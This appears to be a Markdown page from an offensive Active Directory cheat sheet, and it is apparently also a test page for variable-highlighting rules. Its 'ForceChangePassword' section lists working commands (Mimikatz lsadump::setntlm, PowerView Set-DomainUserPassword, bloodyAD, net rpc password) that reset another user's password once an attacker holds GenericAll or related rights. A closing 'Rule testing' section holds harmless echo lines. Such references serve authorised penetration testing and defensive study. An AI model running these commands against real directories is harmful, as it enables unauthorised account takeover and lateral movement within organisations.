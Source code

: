 # ForceChangePassword

If you hold the `GenericAll`, `AllExtendedRights` or `User-Force-Change-Password` over the target user, you can change their password.
<style>
    
    code {
      white-space : pre-wrap !important;
    }
    </style>

    
### From Windows
Mimikatz:
```bash
lsadump::setntlm /user:$target_user /password:$target_pass /server:$domain
```

Powershell:
```powershell
$no_md_var_NewPassword = ConvertTo-SecureString '$target_pass' -AsPlainText -Force
Set-DomainUserPassword -Identity '$target_user' -AccountPassword $no_md_var_NewPassword
```

### From Linux

```bash
# With bloodyAD
bloodyAD --host "$dc" -d "$domain" -u "$user" -p "$pass" set password "$target_user" "$target_pass"

# With net rpc
net rpc password "$target_user" -U "$domain"/"$user"%"$pass" -S "$domain"
```



## Rule testing

These should not be variables:
```bash
echo $true
echo $false
echo $null
```

`$output` should not be a variable:
```bash
$output = 1+1
```